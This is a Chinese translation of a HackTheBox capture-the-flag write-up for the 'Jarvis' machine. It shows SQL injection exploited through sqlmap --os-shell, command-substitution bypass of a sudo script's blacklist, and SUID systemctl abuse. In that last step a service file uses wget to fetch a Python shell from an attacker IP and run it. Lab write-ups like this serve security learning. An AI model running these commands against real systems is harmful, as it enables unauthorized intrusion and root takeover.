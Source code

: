 # 贾维斯——黑客盒子报道

> 原文：<https://infosecwriteups.com/jarvis-hackthebox-writeup-7341a4d2517a?source=collection_archive---------0----------------------->

## 贾维斯是一个简单而有趣的盒子。首先，我将在其中一个网页中找到一个 SQLi，并使用`sqlmap`获得一个基本的 shell，然后绕过 sudo 文件上的过滤器来获得用户标志。为了找到根，我将滥用一个 suid 二进制文件来获得根 shell。

![](img/eba1c450c675b478089b0c4bc95a031a.png)

# 列举

像往常一样，让我们从 Nmap 扫描开始。

![](img/01b1e7daec3d237dfc492e8a9f2157f7.png)

通常的端口`**22 and 80 and 64999**`是打开的。让我们在后台运行`**gobuster**` ，让 ***继续枚举。***

# 80 — HTTP

我们看到了一个看起来像酒店预订网站的东西。

![](img/1b713281927219f2c781af92d372cd51.png)

我们看到页面上提到的`**supersecurehotel.htb**`。也许有一个虚拟主机，让我们把它添加到我们的`***/*etc/hosts**`文件中，看看服务器的响应是否有什么不同。

```
**127.0.1.1       kali****10.10.10.143    supersecurehotel.htb****# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters**
```

嗯，浏览到`**supersecurehotel.htb**`也是定向到同一个网页。

```
[**http://supersecurehotel.htb/room.php?cod=1**](http://supersecurehotel.htb/room.php?cod=1) **caught my attention. My guess was that the parameter** ***cod*** **is vulnerable to SQLi.**
```

使用一些基本的 SQLi 进行测试，证实了该站点确实容易受到 SQLi 的攻击。我检查了列的数量

***http://supersecurehotel.htb/room.php?[cod=1%20UNION%20SELECT%201，2，3，4，5，6，7](http://supersecurehotel.htb/room.php?cod=1%20UNION%20SELECT%201,2,3,4,5,6,7)*** ***。*** 我将请求提供给 sqlmap，并试图从 sqlmap 获得一个基本的 shell。

```
**root@kali:~/htb/boxes/jarvis# sqlmap -r room.req --batch --os-shell**
```

当 sqlmap 询问任何问题时，选择默认选项。
…。而且成功了！

![](img/8de5a2f7c183af9ca48a5f797770506f.png)

我们可以得到一个合适的外壳

![](img/94350110a7ee289e402b51c10a5ef8ac.png)![](img/1470670cf3ca7e36b67c9dd8c81bf692.png)

# Privesc: www-data -> pepper

我们看到用户`**www-data**`拥有 sudo 权限，可以作为`**pepper**` 用户运行文件。

![](img/b743d8449670e83c0e23b33578175d59.png)

sudo 许可

这看起来像某种应用程序，让我们 ping 某人，并给我们统计数据。

![](img/7d1e95fb0b0baf642c6760629eb3937b.png)![](img/3958cc49e0be52111333ab3cfd946629.png)

最初我尝试了简单的 bash 替换，看起来像是这样`Got me.`我看了一下代码，看看它有什么样的过滤器，它允许哪些命令。

![](img/0d1980e7536b436690e7dd77155f4b82.png)

黑名单

所以，过滤字符可以让我们执行其他命令。我决定继续研究 bash 替换`**$()**`。

![](img/c7feee8ca434ea7da73294a3f9d6696c.png)

成功了！

如果我删除特殊字符，只运行一个命令，它就能工作，我们会看到我们是以`**pepper**`用户的身份运行的。现在是获取 shell 的时候了。

![](img/5b9717c8cb1d73b67f7c7e6fb3d57e94.png)![](img/f2e57a39f6ad2f061bca841b74331f00.png)![](img/3d85c56095aa8aa5bffeabc0f401a3fd.png)

胡椒壳

![](img/0fc2ba4974b4f5b5c4a443b340354416.png)

# 胡椒->根

做一些基本的检查，我们看到我们在`**systemctl**`上设置了一个`**SUID**`。在`**systemctl**`的帮助下，我寻找到了一些方法。

![](img/5399c4a8e7f91099a163cb0525419f4d.png)

我的页面是[https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)

```
**TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF**
```

上面的脚本创建了一个`**service file**`，并在`**ExecStart**`字段中添加了一个命令，以便在服务启动时运行该命令。然后是`**linking the service**` 然后是`**enabling it.**` [**一个了解 systemctl 服务的牛人。**](https://www.digitalocean.com/community/tutorials/how-to-use-systemctl-to-manage-systemd-services-and-units)

我已经用上面的脚本试过了。但是并没有达到预期的效果。可以看看[写我们自己的服务文件](https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6)。这是我写的。这是一个非常基本的服务文件，它在服务启动时执行`**ExecStart**`字段中提到的命令。

```
**[Unit]
Description=Example systemd service.****[Service]
Type=simple
ExecStart=/bin/bash -c "/usr/bin/wget** [**http://10.10.14.174/rootShell.py**](http://10.10.14.174/rootShell.py) **-O /tmp/kkk.py ;/usr/bin/python /tmp/kkk.py"****[Install]
WantedBy=multi-user.target**
```

确保该服务文件不在`**/tmp/**`文件夹中。我被困在这里有一段时间了。然后我把服务文件移到了`**/home/pepper/**` ，这次它工作得很完美。医生是这么说的。

```
**link FILENAME****Link a unit file that is not in the unit file search paths into the unit file search path. This requires an absolute path to a unit file. The effect of this can be undone with disable. The effect of this command is that a unit file is available for start and other commands although it is not installed directly in the unit search path.**
```

![](img/e29d0f8d5450d55a8169141684ce6df2.png)

一旦服务被链接，就像我们对任何普通服务一样启动服务，如`**apache2**` **或** `**docker**`。

![](img/42fac7b414fcc3d503311715f4d2515c.png)

根深蒂固的

感谢阅读，
普伦([https://twitter.com/PreethamBomma_](https://twitter.com/PreethamBomma_))

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)